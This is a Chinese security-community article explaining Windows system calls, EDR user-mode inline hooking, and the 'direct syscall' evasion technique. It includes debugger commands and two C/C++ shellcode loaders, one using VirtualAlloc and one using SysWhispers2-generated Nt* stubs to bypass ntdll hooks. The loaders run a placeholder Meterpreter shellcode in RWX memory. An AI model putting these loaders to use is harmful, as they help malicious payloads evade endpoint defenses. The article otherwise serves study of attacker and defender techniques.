









# 直接系统调用之从上层API到下层API的旅程-先知社区

> **来源**: https://xz.aliyun.com/news/19088  
> **文章ID**: 19088

---

# 前言

越来越多的安全厂商实现了用户模式Hook，简单说就是恶意软件使用Windows API时，被安全厂商重定向到它自己的Hooking.dll，然后进一步分析，如果研判代码没有恶意行为则放行，如果研判代码有恶意行为则拦截，这促使攻击者使用了新的技术，例如Unhooking、直接系统调用、间接系统调用、等等

本文主要介绍直接系统调用，并介绍如何在Visual Studio中通过C++创建一个使用直接系统调用的Loader，我会先用Win32 API写一个Loader，然后Win32被替换为直接系统调用

直接系统调用技术已经诞生好几年，不是一个新技术，本文中我想重新回顾一下这个话题，探讨一下直接系统调用涉及的知识，以及如何实现基于它的Loader，并使用诸如API Monitor、Dumpbin和x64dbg等工具来分析这个Loader，例如，查看Loader是否正确导入Windows API，以及Syscall在PE结构的哪个节区执行

# 什么是系统调用

系统调用英文System Call，简称Syscall，单纯讲系统调用概念是什么，对初学者来说可能不太好理解，我们通过一个例子来说明，用户模式下通过Notepad创建文件并保存的过程，如下图

  
可以看到Windows API的调用关系是，第一步，调用Kernel32.dll中的CreateFileW，第二步，Kernel32.dll中的CreateFileW调用Kernelbase.dll中的CreateFileW，第三步，Kernelbase.dll中的CreateFileW调用Ntdll.dll中的NtCreateFile，第四步，Ntdll.dll中的NtCreateFile包含的指令，就称为Syscall（系统调用）指令，Syscall指令的作用是从用户模式（Ring 3）切换到内核模式（Ring 0），切换到内核模式后，先调用系统服务调度器（KiSystemCall/KiSystemCall64），系统服务调度器再基于Syscall ID查询系统服务描述符表（SSDT），找到Ntdll中NtCreateFile对应的内核中的函数后，最终由内核中的函数执行实际的处理任务，x64处理器下使用syscall，x86处理器下使用sysenter，早期x86处理器下使用int 2eh

Syscall指令分为2部分，一部分是Syscall Stub（系统调用存根），可以理解为准备工作，包含

* 将系统调用号放入寄存器
* 设置参数到寄存器或堆栈

另一部分就是syscall指令，syscall指令的直观展示如下图



系统调用号（System Call Number）、系统服务号（System Service Number）、系统调用ID（System Call ID）是一个东西，内核中的函数都有一个系统调用ID，在执行Syscall指令从用户态切换到内核态时，需要传递这个ID，同一个内核函数的系统调用ID在不同Windows版本中是不同的

在分为用户模式和内核模式的Windows系统中，哪些情况下需要系统调用

* 访问硬件，例如扫描仪和打印机
* 用于发送和接收数据包的网络连接
* 读写文件

也就是说，但凡最终需要内核处理的任务，都需要系统调用

哪些情况下不需要系统调用？

* 数学计算，例如1 + 1 = 2
* 内存管理的用户态辅助操作：例如 malloc 的 “小内存分配”（若分配的内存来自进程已申请的堆空间缓存，无需再次向内核申请；仅当缓存不足时才会调用 HeapAlloc 系统调用）、memcpy（内存拷贝，直接操作用户态地址空间的字节）。

# 什么是直接系统调用

直接系统调用是攻击者在恶意软件中使用的一项技术，从上一部分“什么是系统调用”我们可以知道，Windows API一步一步调用后，用户层的最后是通过Ntdll.dll中的Syscall指令切换到内核层，直接系统调用就是自己实现Syscall指令，来绕过AV/EDR在用户层对ntdll.dll的hook

本文中，我将介绍如何使用Syswhispers2生成相应的Native API和Syscall指令，生成的Syscall指令在Visual Studio的C++项目中作为一个Microsoft Macro Assembler

下图展示了直接系统调用这项技术的原理，用户模式下的恶意软件自己实现Syscall指令后，直接进入内核



# 为什么使用直接系统调用

EDR通过用户模式Hook来动态检测一个程序使用的Windows API是否是恶意的，Windows下常使用的Hook技术包括

* Inline API hooking
* Import Address Table (IAT) hooking
* SSDT hooking (Windows Kernel)

导入地址表Hooking比较容易被绕过，SSDT hooking在Windows引入Patch Guard后也无法使用，所以AV/EDR往往使用Inline Hooking，Inline Hooking通过在内存中添加一个无条件跳转指令，来跳转到安全厂商的Hooking.dll中，通过分析Windows API的参数、权限、等等后，研判Windows API不是恶意的，则跳转回来，研判Windows API是恶意的，则终止执行，流程如下图



我们在只有Windows Defender的Win10上，通过Windbg和Notepad看一下，先打开Notepad，然后通过Windbg Attach打开的Notepad，分别执行

```
x ntdll!NtAllocateVirtualMemory

u 00007ff9`f410d7e0（这个地址来自上一个命令输出的结果）
```

下图所示，表示没有EDR对NtAllocateVirtualMemory进行Hook

  
而EDR对NtAllocateVirtualMemory进行Hook的场景是下图所示  


在只有Windows Defender的Win10上，通过x64dbg查看，没有EDR Hook的如下图

  
相比之下，有EDR Hook会多一个jmp ntdll.7FFCC600A827，一路step into，最终会进入EDR厂商的Hooking.dll中，如下图



# Win32 API

```
#include <stdio.h>
#include <windows.h>

int main() {

    // Insert Meterpreter shellcode  
    unsigned char code[] = "\xa6\x12\xd9...";


    // Allocate Virtual Memory 
    void* exec = VirtualAlloc(0, sizeof code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);


    // Copy shellcode into allocated memory 
    memcpy(exec, code, sizeof code);


    // Execute shellcode in memory 
    ((void(*)())exec)();
    

  return 0;
}
```

值得一提的是，shellcode位于.text节中，如果shellcode超过了255字节，则会使用.rdata节保存

上述程序编译后，使用x64dbg查看，可以发现syscall指令位于ntdll.dll的内存中

# Step3 直接系统调用

借助项目<https://github.com/jthuraisamy/SysWhispers2>

我们可以直接生成syscall指令

```
python3 syswhispers.py -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtWaitForSingleObject,NtClose -a x64 -l masm --out-file syscalls
```



使用syscalls.h作为头文件，syscalls.c作为源文件，syscallsstubs.std.x64.asm作为资源文件，main.cpp代码如下

```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xa6\x12\xd9...";


    LPVOID allocation_start;
    SIZE_T allocation_size = sizeof(code);
    HANDLE hThread;
    NTSTATUS status;

    allocation_start = nullptr;


    // Allocate Virtual Memory 
    NtAllocateVirtualMemory(GetCurrentProcess(), &allocation_start, 0, (PULONG64)&allocation_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);


    // Copy shellcode into allocated memory
    NtWriteVirtualMemory(GetCurrentProcess(), allocation_start, code, sizeof(code), 0);


    // Execute shellcode in memory 
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), allocation_start, allocation_start, FALSE, NULL, NULL, NULL, NULL);


    // Wait for the end of the thread and close the handle
    NtWaitForSingleObject(hThread, FALSE, NULL);
    NtClose(hThread);

    return 0;
}
```

简单理解就是，用syscalls.h、syscalls.c、syscallsstubs.std.x64.asm代替了ntdll，上述程序编译后，使用x64dbg查看，可以发现syscall指令位于程序本身的内存中
